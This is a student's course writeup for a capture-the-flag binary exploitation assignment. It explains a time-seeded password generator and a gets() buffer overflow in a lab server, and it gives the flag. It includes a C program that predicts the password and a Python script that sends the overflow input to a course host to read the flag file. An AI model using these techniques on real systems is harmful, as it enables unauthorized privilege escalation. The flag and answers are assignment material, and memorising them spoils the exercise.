 # Writeup 8 - Binaries II

Name: *Sara Garcia-Beech*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Sara Garcia-Beech*

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

A 16 character string is generated using the rand function, taking the current time as the seed parameter. This is inherently weak as a separate program could produce the same "random" password if it is run at the same time.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

Line 68: The program takes a command from the user as input, but since the program uses the gets function here, it does not check the length of the input. This could potentially cause buffer overflows depending on what input is given.

Line 71: The program uses the nonstandard strcasestr function to compare the command given as user input to a list of acceptable user commands. If unchecked input causes a buffer overflow, the command variable could be overwritten and the strcasestr function could compare the input with something other than the command variable's encoded contents.

3. What is the flag?

CMSC389R-{expl017-2-w1n}

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

I began by attempting to determine the password. The vulnerability in the generation of the password meant that it was possible to replicate the password generation with my own program, given that the program was run within the same second as the server's own password generation. This was done with my pwd.c program. Redirecting the output of the pwd.c function into the server allowed me to raise my privileges to those of admin and run commands. Running ls on the server revealed a file named flag, but there was no way to read the contents of the file with the limited whitelisted commands. However, the server took in user input for a command with the gets function, which is vulnerable to buffer overflows. Giving the program an input longer than 32 characters overwrote the commands variable with the contents of the string after the 32nd character. To run "cat flag", I gave as input "cat flag", followed by enough spaces to reach 32 characters, and then the same thing repeated, so that strcasestr would compare `"cat flag                         "` with itself, return true, and run cat flag without a problem.

Input summary:
```
3
Output of pwd.c
4
"cat flag                         cat flag                         "
```

pwd.c:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;

    /* seed random with time so that we can password */
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;

    printf("%s", password);

    return 0;
}
```

stub.py:
```
import socket
import os
import sys

host = "ec2-18-222-89-163.us-east-2.compute.amazonaws.com"
port = 1337

def server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    command = "cat flag                         cat flag                         "

    data = s.recv(1048)
    print(data)

    s.send("3\n")
    data = s.recv(1048)
    print(data)

    os.system("./pwd >> temp.txt")
    os.system("cat temp.txt")
    fl = open("temp.txt", "r")
    pwd = fl.read().split('\n')[0] + '\n'
    print("PWD:")
    print(pwd)
    print("****")

    s.send(pwd)

    data = s.recv(1048)
    print(data)

    s.send("4\n")
    print("Sending 4...")
    data = s.recv(1048)
    print(data)
    s.send(command + "\n")
    print("sending ls...")
    data = s.recv(1048)
    print(data)
    data = s.recv(1048)
    print(data)

    os.system("rm temp.txt")

server()
```
